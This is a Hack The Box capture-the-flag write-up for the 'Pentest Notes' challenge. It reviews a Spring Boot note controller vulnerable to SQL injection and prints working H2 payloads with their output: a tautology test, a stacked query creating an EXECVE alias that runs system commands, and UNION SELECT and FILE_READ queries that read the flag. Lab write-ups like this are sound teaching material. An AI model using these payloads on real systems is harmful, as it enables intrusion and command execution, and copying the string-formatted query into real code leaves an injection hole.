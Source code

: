 ```yaml
---
clayout: ctf
title: Pentest Notes
date: 2024-11-11
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Pentest Notes
      link: https://app.hackthebox.com/challenges/772
      thumbnail: /ctf/hack-the-box/challenges/web/pentest-notes/thumbnail.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/772
          thumbnail: /ctf/hack-the-box/challenges/web/pentest-notes/pwned.png
---
```


## Box description

People-first web application projects are always a boring, like a note or a tic tac toe game, so I have created an
upgraded version called 'Pentest Note'!

## Challenge Description

This challenge presents us with a web application built using **Spring Boot**, which provides a simple interface for
registration and login. Upon logging in, we are shown three notes:

![Pentest Checklist](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-checklist.png)

Clicking on each note redirects us to a page displaying the content of that specific note:

![Pentest Note](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-note.png)

## Code Review

### NoteController.java

The `NoteController.java` file handles note retrieval based on a `name` parameter passed in an HTTP request:

```java
@RestController
@RequestMapping("/api")
public class NotesController {

    [...]

    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
}
```

Key Observations:

- The `noteByName` method takes in a `name` parameter and checks if the user is logged in. If not, it returns an
  unauthorized response.
- It further checks if the `name` parameter contains the character `$` or the term `concat`, blocking requests
  containing either.
- The `name` parameter is then passed directly into a SQL query without sanitization, making the query vulnerable to SQL
  Injection.

### Aplication.properties

The application uses an H2 in-memory database to store the notes, as indicated by the configuration in
`application.properties`:

```properties
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

Searching for **H2 database** and **SQL injection** references online, we find
an [h2-exploit script](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed) that can assist in exploiting
this
vulnerability.

## Exploitation - SQL Injection

### Initial Testing

To verify the SQL injection vulnerability, we send a request with a payload containing a single quote `'` in the `name`
parameter. This generates an error, confirming that the input is processed directly in the SQL query.

### Proof of Concept (PoC)

To test further, we use a classic SQL injection payload:

```sql
1' or '1'='1
```

The application returns the following response:

```
[
    {
        "Note" : "One  ' to rule them all",
        "ID" : 1,
        "Name" : "SQL Injection"
    },
    {
        "Note" : "Script alert 1 !!!!!!!!!",
        "ID" : 2,
        "Name" : "Cross Site Scripting"
    },
    {
        "Note" : "IDK, can you tell me?                   ¯\\_(ツ)_/¯",
        "ID" : 3,
        "Name" : "Skill issue"
    }
]
```

The response reveals that the injection successfully bypassed the query, displaying all notes in the database. This
confirms the SQL injection vulnerability.

### Creating an Alias for Code Execution

To fully exploit this, we can use **H2’s ALIAS** feature to create a Java alias that allows command execution. However,
since `$` is restricted in the `name` parameter, we modify the typical alias creation syntax by using `'` instead of
`$`.

#### Modified Alias Creation:

```sql
CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Using the following SQL injection payload, we inject the alias into the database:

```sql
1'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Upon receiving a `200 OK` response, we confirm that the alias was successfully created.

### Executing Commands with the Alias

With the alias created, we can now use `UNION SELECT` to invoke `EXECVE` and execute system commands. For example, to
list
the root directory and locate the flag, we use:

```sql
1' UNION SELECT NULL, NULL, EXECVE('ls /') --
```

The response shows:

```
[
    {
        "Note" : "app\nbIK4tYUmPNmp_flag.txt\nbin\nboot\ndev\netc\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n",
        "ID" : null,
        "Name" : null
    }
]
```

This output reveals the flag file `bIK4tYUmPNmp_flag.txt`.

#### Reading the Flag file

To read the contents of `bIK4tYUmPNmp_flag.txt`, we use the following payload:

```sql
1' UNION SELECT NULL, NULL, EXECVE('cat /bIK4tYUmPNmp_flag.txt') --
```

Alternatively, we can also use H2’s built-in `file_read()` method to read files, along with the `cast()` method to
convert the output to a string format:

```sql
1' UNION SELECT NULL, NULL, CAST(FILE_READ('/bIK4tYUmPNmp_flag.txt', NULL) AS VARCHAR) --
```

The response:

```
[
    {
        "Note" : "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "ID" : null,
        "Name" : null
    }
]
```

We successfully retrieved the fake flag!
We can now use the same technique to get the real flag.

## References

- [H2 Database - Doc](https://www.h2database.com/html/main.html)
- [H2 Database - Exploit](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)
- [dotCMS 5.1.5: Exploiting H2 SQL injection to RCE](https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/)
- [Portswigger - SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
